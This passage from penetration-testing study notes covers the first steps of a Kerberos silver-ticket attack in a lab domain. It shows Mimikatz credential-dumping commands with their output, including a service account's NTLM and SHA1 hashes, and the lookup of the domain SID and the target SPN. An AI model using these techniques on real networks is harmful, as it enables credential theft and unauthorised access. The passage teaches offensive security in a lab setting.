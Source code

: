 Since we are a local Administrator on this machine where _iis_service_ has an established session, we can use Mimikatz to retrieve the SPN password hash (NTLM hash of _iis_service_), which is the first piece of information we need to create a silver ticket
+ Let's start PowerShell as Administrator and launch Mimikatz
+ As we already learned, we can use **privilege::debug** and **sekurlsa::logonpasswords** to extract cached AD credentials
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1147751 (00000000:00118367)
Session           : Service from 0
User Name         : iis_service
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 4:52:14 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1109
        msv :
         [00000003] Primary
         * Username : iis_service
         * Domain   : CORP
         * NTLM     : 4d28cf5252d39971419580a51484ca09
         * SHA1     : ad321732afe417ebbd24d5c098f986c07872f312
         * DPAPI    : 1210259a27882fac52cf7c679ecf4443
...
```
+ Above shows the password hashes of the _iis_service_ user account
+ The NTLM hash of the service account is the first piece of information we need to create the silver ticket

Now, let's obtain the domain SID, the second piece of information we need
+ We can enter **`whoami /user`** to get the SID of the current user
+ Alternatively, we could also retrieve the SID of the SPN user account from the output of Mimikatz, since the domain user accounts exist in the same domain

As covered in the _Windows Privilege Escalation_ Module, the SID consists of several parts. Since we're only interested in the Domain SID, we'll omit the RID of the user
```
PS C:\Users\jeff> whoami /user

USER INFORMATION
----------------

User Name SID
========= =============================================
corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105
```
+ So if the whole SID is `S-1-5-21-1987370270-658905905-1781884369-1105`, the domain SID is `S-1-5-21-1987370270-658905905-1781884369`

The last list item is the target SPN (Service Principle Name)
+ For this example, we'll target the HTTP SPN resource on WEB04 (_`HTTP/web04.corp.com:80`_) because we want to access the web page running on IIS
